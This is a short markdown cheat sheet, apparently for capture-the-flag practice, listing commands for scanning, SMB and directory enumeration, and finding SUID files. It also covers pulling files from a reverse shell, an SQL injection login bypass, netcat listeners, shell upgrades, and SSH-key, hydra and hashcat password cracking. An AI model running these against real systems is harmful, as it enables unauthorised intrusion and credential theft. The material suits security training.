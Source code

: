 # _**Some Important Notes**_

-------------------------------------------------------------------------------------------

`verison` 
`1.0`

-------------------------------------------------------------------------------------------


`General Nmap Scan`


	nmap -sV -A {machine IP} 


`If ping is being blocked`

	nmap -sV -A {machine IP} -Pn


------------------------------------------------------------------------------------------

`Gobuster`

	gobuster dir -u http://machineip -w wordlists


--------------------------------------------------------------------------------------------

`rust scan`


	rustscan -a {machine IP} -- -A -sC -sV

-------------------------------------------------------------------------------------------------


`enum4linux`

	./enum4linux.pl -U {machine IP} 

`or also -S be used`

	./enum4linux.pl -S {machine IP}

-----------------------------------------------------------------------------------------------

`subclient`

	smbclient //{machine IP}

--------------------------------------------------------------------------------------------

`SUID permission`

	find / -perm -u=s -type f 2>/dev/null


----------------------------------------------------------------------------------------------

`Download From Reverse Shell`

`In Reverese shell`

	python3 -m http.server

`In local Machine`

	wget machineip:8000/file.name

`for directory` `sometimes`

	wget --recursive --no-parent  10.10.46.113:8000/{directory}

-------------------------------------------------------------------------------------------------------

`FTP download/upload`

	get -> download file
	put -> upload file

-------------------------------------------------------------------------------------------------------

`sql injection` 
`login bypass`

	 username: ' or 1=1 --
	 password: anything

---------------------------------------------------------------------------------------------------

`netcat`

	nc -nvlp {port}

-------------------------------------------------------------------------------------------------

`PTY shell upgrade`
`Stable Reverse Shell connnection`

        python3 -c 'import pty; pty.spawn("/bin/bash")'

-------------------------------------------------------------------------------------------------
`john the ripper`
`john`

	john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john

-----------------------------------------------------------------------------------------------------

`rsa` 
`ssh2john`

	/usr/share/john/ssh2john.py id_rsa > id_rsa.john 

`then`
       john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john


------------------------------------------------------------------------------------------------------

`hydra`

	hydra -l user -P passlist.txt ftp://192.168.0.1


-----------------------------------------------------------------------------------------------------

`hashid`

	hashid -m '{hash value}'

`hashcat`

	hashcat -m {mode value from hashid} {hash value} {/wordlists.txt}

-------------------------------------------------------------------------------------------------------------

# @cc github.com/prakashchand72
